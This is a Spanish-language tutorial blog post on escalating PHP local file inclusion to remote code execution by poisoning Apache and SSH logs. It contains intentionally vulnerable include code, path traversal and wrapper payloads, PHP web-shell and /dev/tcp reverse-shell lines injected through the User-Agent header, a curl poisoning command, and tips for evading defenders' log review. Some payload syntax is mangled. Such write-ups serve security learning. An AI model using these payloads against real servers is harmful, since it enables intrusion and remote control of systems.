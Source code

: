 ```yaml
---
title: "De LFI a RCE - Log Poisoning (SSH, Apache logs)"
layout: single
excerpt: Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona. 
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
categories:
  - Vulnerabilities
tags:
  - LFI
  - RCE
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png">
</p>

Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona.
“Local File Inclusion” es una vulnerabilidad que te permite incluir archivos locales a un servidor a causa de una mala programación en cuanto a “back-end”, esta vulnerabilidad está presente en PHP, JSP, ASP entre otros.

## Explotación de la vulnerabilidad

Imaginemos que tenemos este código en un archivo PHP.

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("$file"); 
   } 
?>
```

Este código es vulnerable a LFI porque estamos declarando el parámetro “file” sin ningún tipo de sanitización, por lo tanto nos permitiría incluir archivos en el servidor.

**Petición Legítima:**

```php
http://192.168.1.144/test.php?file=contact.php
```

**Petición malintencionada:**

```php
http://192.168.1.144/test.php?file=/etc/hosts
```

Como vemos en la segunda petición que tramitamos al servidor web es diferente a la primera, en la segunda estamos explotando un LFI en toda regla, por lo que la respuesta de parte del servidor es un 200 OK, es decir el recurso solicitado existe, en este caso nos devolvería el contenido del archivo “/etc/hosts”.

Hay programadores que reconocen este tipo de vulnerabilidad web e intentan sanitizar el código de alguna manera:

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("lib/functions/$file");
   }
?>
```

Aquí solo seria cuestión de hacer un “Directory Path Traversal”, es decir volver directorios atrás para apuntar al recurso solicitado “../../etc/hosts”. Cabe decir que este ejemplo es simple, se puede complicar mucho más.

## Wrapper
Un "**Wrapper**" en LFI es una envoltura que incorpora PHP, se introduce en la URL al tramitar la petición al servidor legítimo. Hay distintos tipos de "**Wrappers**" y cada uno para una función en específico, los más comunes son:

```php
expect://: http://192.168.1.144/test.php?file=expect://whoami
filter://: http://192.168.1.144/test.php?file=php://filter/convert.base64-encode/resource=test.php
data://: http://192.168.1.144/test.php?file=data:text/plain;,<?php echo shell_exec($_GET[‘cmd’]);?>
``` 

## ¿Cómo conseguir RCE de un LFI?

Se puede conseguir "**Remote Code Execution**" de distintas formas, pero aquí solo explicaré unas cuantas. En LFI hay una técnica para conseguir RCE llamada "**Log Poisoning**", consiste en envenenarlos .log de Apache o SSH.

Los logs son archivos que dejan registro de lo que haces, un ejemplo seria cuando accedes al servidor web, lo que haces es verificar si el recurso que solicitas existe y eso lo haces mediante una petición de tipo GET, pues eso se queda registrado en estos archivos, cada servicio tiene su propio archivo .log, en este caso nos centraremos solo en Apache y SSH.

Te estarás preguntando ¿Cómo concateno un LFI con un “Log Poisoning”?

**Buena pregunta!!!**, pues es más sencillo de lo que parece. Primero debemos saber cuál es la ruta de estos logs, el archivo de logs de Apache se sitúa en ```/var/log/apache2/access.log``` y el de SSH ```/var/log/auth.log```, le damos permiso de lectura y escritura a la carpeta de los logs de Apache con ```chmod 755/var/log/apache2``` y ```chmod 755 /var/log/auth.log``` para el archivo de los logs de SSH para que podamos visualizar su contenido.
Bien, tenemos medio trabajo hecho, ahora solo faltaría envenenar estos logs, lo que tendríamos que hacer es tramitar una petición a la ruta donde se encuentran los logs y cambiar el “**UserAgent**”, vamos a utilizar “**BurpSuite**” para hacerlo, también se puede utilizar “**Curl**” para más rapidez. Usaré “**BurpSuite**” para ver como se comporta la petición por detrás y sea más claro.

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226068-c09dd300-c246-11eb-9300-198cce165d89.png">
</p>

Como vemos en la foto anterior hemos interceptado la petición con “**BurpSuite**”, ahora la mandamos al “**Repeater**” para modificarla a nuestra manera, cambiamos el “**User-Agent**” y ponemos nuestras sentencias maliciosas en *PHP*:

```php 
<?php system($_GET['sh >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_GET['cmd']); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226156-efb44480-c246-11eb-8e66-0cea44ec83e8.png">
</p>

Enviamos la petición maliciosa al servidor y…

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226181-ffcc2400-c246-11eb-898c-0b9348b621f5.png">
</p>

Lo malo aquí es que las peticiones se emiten por tipo GET, esto quiere decir que se verían reflejadas en los logs y sería muy fácil para el “**Blue-Team**” pillar-nos, para ponérselos más difícil lo ideal seria cambiar el tipo de petición a POST o REQUEST.

```php
<?php system($_REQUEST['bash >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_POST['cmd']); ?>
```

Utilizando “**Curl**” sería algo un poco más complejo de entender, pero nada del otro mundo:

```php 
~$ curl -s -X REQUEST -A "<?php system($_REQUEST['whoami']); ?>" "http://192.168.1.144/test.php?file=/var/log/apache2/access.log"
```

Lo que estamos haciendo es enviar una petición por REQUEST para que no se vea reflejada en él *.log* y en modo “**silent**” para no ver la respuesta de lado del servidor, el parámetro “**-A**” es para modificar el “**UserAgent**” a nuestra manera y por último le especifico a que URL quiero enviarla.
Para envenenar los logs de SSH es aún más sencillo, en vez de poner un “**user**” en el campo correspondiente para la conexión con SSH, ponemos la sentencia maliciosa de *PHP* entre comillas simples seguida de una arroba y la IP del sistema.

```php
<?php system(‘whoami’); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226346-4b7ecd80-c247-11eb-817b-8eef893fd0d0.png">
</p>
